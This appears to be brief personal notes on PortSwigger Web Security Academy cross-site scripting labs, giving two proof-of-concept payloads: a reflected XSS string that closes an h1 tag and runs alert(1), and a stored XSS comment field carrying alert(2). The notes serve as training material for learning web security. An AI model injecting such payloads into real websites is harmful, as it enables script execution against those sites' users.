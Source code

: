 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Payload: comment=<script>alert(2)</script>
```